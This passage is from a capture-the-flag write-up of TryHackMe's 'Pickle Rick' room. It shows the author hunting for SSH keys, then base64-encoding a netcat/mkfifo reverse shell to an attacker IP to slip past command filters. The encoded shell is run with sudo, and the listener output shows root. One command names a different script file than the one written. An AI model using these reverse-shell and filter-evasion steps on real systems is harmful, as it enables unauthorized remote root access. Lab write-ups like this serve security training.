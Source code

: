 #### Stealing SSH files instead..

We know we can perform route actions, we just can't use `cat` or `head` .etc ... Little bit annoying, but, we do have more options. Lets see if there are some SSH keys we can acquire.

`sudo ls -lah /home/rick`

And heh, we've found the `second ingredient` file at least...

Though, the aren't any SSH files for rick.

`ls -lah /ubuntu/.ssh` has also been _wiped_. Annoyingly.

#### Lets get dirty, and create an encoded script

I'm going to encode the previous script with base64, then on the victim machine, decode the text into our shell script...

```
# on attacker machine

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.219 4444 >/tmp/f' | base64;
```

We get the following output... which isn't quite right. 
```
# base64 script for victim...
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAu
MTEuOC4yMTkgNDQ0NCA+L3RtcC9mCg==
```

Lets chunk it down so we don't have a funky link break...

`echo 'rm /tmp/f;mkfifo /tmp/f;' | base64;`
`echo 'cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.219 4444 >/tmp/f;' | base64;`

```
kali@kali:~/Desktop/TryHackMe/picklerick$ echo 'rm /tmp/f;mkfifo /tmp/f;' | base64;
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Cg==

kali@kali:~/Desktop/TryHackMe/picklerick$ echo 'cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.219 4444 >/tmp/f;' | base64;
Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTEuOC4yMTkgNDQ0NCA+L3RtcC9mOwo=
```

And run this on victim machine
```
touch /tmp/a.sh;

echo 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Cg==' | base64 -d > /tmp/a.sh;
echo 'Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTEuOC4yMTkgNDQ0NCA+L3RtcC9mOwo=' | base64 -d >> /tmp/a.sh;

sudo sh /tmp/dog.sh;
```

We then we get *root* on our netcat!

```
kali@kali:~/Desktop/TryHackMe/picklerick$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.11.8.219] from target.thm [10.10.70.157] 42390
/bin/sh: 0: can't access tty; job control turned off                                                                                                        
# whoami                                                                                                           
root                                                                                                               
```
